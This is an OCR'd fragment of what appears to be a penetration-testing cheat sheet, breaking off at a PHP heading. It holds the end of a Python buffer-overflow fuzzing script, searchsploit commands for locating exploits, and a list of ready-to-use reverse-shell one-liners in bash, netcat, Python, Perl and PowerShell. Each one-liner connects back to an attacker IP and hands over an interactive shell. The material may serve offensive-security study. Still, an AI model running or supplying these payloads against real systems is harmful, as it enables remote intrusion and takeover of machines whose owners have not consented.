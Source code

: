 ```
    sys.exit()

req1 = "AUTH " + "\x41"*1072
s = so.socket(so.AF_INET, so.SOCK_STREAM)
try:
     s.connect((server, port))
     print repr(s.recv(1024))
     s.send(req1)
     print repr(s.recv(1024))
except:
     print "[!] connection refused, check debugger"
s.close()
```



## Find xploits - Searchsploit and google

Where there are many exploits for a software, use google. It will automatically sort it by popularity.

```bash
site:exploit-db.com apache 2.4.7

# Remove dos-exploits

searchsploit Apache 2.4.7 | grep -v '/dos/'
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

# Only search the title (exclude the path), add the -t
searchsploit -t Apache | grep -v '/dos/'
```

## Reverse Shells

```bash
# Linux 
bash -i >& /dev/tcp/10.11.1.111/4443 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.1.111 4443 >/tmp/f
nc -e /bin/sh 10.11.1.111 4443

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.1.111",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4433 >/tmp/f')-1\

# Perl
perl -e 'use Socket;$i="10.11.1.111";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Windows
nc -e cmd.exe 10.11.1.111 4443
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# PHP most simple Linux
```